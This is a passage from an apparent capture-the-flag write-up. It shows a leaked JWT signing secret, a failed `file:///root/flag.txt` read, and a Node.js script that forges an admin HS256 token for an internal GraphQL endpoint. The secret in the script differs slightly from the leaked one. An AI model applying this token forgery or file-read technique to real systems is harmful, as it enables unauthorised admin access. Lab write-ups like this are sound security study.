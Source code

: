 That worked! We've now got the secret that's used to sign JWTs:

```
Str0ng_K3y_N0_L3ak_pl3ase
```

Supplying `file:///root/flag.txt` was also attempted, however the `node` user executing these commands on the server did not have appropriate permissions and resulted in `ContentNotFound` errors. 

## JWT Forgery

Now that we've leaked the secret used to sign JWTs, we should be able to create one with the payload of `role: 'admin'` instead of `role: 'user'` to access the internal `/graphql` endpoint. Let's create a script to do just that:

```js
const jwt = require('jsonwebtoken');
const currentTime = Math.floor(Date.now() / 1000);
const secret = 'Str0ng_K3y_N0_l3ak_pl3ase?';

const payload = {
    role: 'admin',
    iat: currentTime
};

const token = jwt.sign(payload, secret, { algorithm: 'HS256' });

console.log(token);
```

![image](../images/htb-ctf-2024/admin-jwt.png)
*Admin JWT creation*

Success! We should now be able to authenticate to the routes in `app/routes/internal.ejs`.

## Server-Side Request Forgery (SSRF)

Remember the `getDataByName` query accessible via `/graphql` from earlier? We should now be able to access it. Let's see if we can query it via the browser with our new admin JWT as the `token` query parameter:
